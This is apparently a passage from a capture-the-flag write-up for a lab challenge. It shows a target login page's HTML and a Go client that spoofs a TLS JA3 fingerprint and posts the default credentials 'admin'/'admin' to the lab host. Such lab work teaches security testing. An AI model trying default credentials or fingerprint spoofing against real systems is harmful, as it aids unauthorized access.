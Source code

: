 ```` `` can run commands in a subshell. The limiting factor here is that the
            <link href="static/bootstrap/bootstrap.min.css" rel="stylesheet" media="screen">
            <link href="static/fontawesome/css/all.min.css" rel="stylesheet" media="screen">
            <link href="static/style.css" rel="stylesheet" media="screen">
        </head>
        <body>
            <div class="login">
                <h1>Login</h1>
                <form action="/login" method="post">
                    <label for="username">
                        <i class="fas fa-user"></i>
                    </label>
                    <input type="text" name="username" placeholder="Username" id="username">
                    <label for="password">
                        <i class="fas fa-lock"></i>
                    </label>
                    <input type="password" name="password" placeholder="Password" id="password">
                    
                    <input type="submit" value="Login">
                </form>
            </div>
      
        </body>
    </html>
    

#### Get Cookie and Username

Given this is a login form, I wanted to try some basic credentials like
“admin” / “admin”. I learned how to craft a POST request, and I added code to
print the response headers as well.

    
    
    package main
    
    
    import (
        "io/ioutil"
        "fmt"
        "net/http"
        "net/url"
        "github.com/CUCyber/ja3transport"
    )
    
    func main() {
    
        tr, _ := ja3transport.NewTransport("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")
        client := &http.Client{Transport: tr}
    
    
        data := url.Values {
            "username": {"admin"},
            "password": {"admin"},
            "submit": {"Login"},
        }
    
        resp, _ := client.PostForm("https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/login", data)
        body, _ := ioutil.ReadAll(resp.Body)
        
        fmt.Println(string(body))
    
````